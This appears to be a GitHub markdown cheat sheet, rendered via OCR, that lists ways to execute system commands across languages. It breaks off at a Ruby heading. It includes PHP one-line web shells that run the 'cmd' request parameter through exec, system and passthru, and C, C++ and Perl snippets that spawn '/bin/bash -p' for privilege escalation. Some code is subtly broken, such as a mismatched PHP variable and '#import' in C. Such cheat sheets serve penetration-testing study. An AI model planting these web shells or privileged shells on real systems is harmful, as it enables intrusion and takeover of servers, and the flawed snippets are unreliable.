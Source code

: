 # EXEC in Many Languages
This cheat sheet will provide many different examples of how to perform system(), exec(), and more in different web languages.
## WEB LANGUAGES
### PHP
PHP is widely used and can often have the system(), exec(), etc functions eenabled in the php.ini configuration file.
#### Exec()
```
<?php
 exec($_GET['cmd'],$response);
 var_dump($output) # dump entire object to DOM
 ?>
```
#### System()
```
<?php
 echo system($_GET['cmd']); # "echo()s" to the DOM
 ?>
```
#### Passthru()
```
<?php
 passthru($_GET['cmd']); # displays right to the DOM
 ?>
```
### Groovy
Groovy/Java can execute commands and print the output like so,
```
print "cmd /c mvn".execute().text
```
## C LANGUAGES
C and C-family languages usually require compilation, with the exception of JavaScript.
### C - System()
```
#import<stdlib.h>
int main(void){
 system("/bin/bash -p");
 return 0;

}
```
### C++ - System()
```
#include <bits/stdc++.h> 
using namespace std; 
int main(void){
 system("/bin/bash -p");
 return 0;

}
```
## Interpreterd Languages
Sometimes, scripts can also call `system()`
### Perl
```
perl -e 'system("/bin/bash -p");'
```
### Ruby
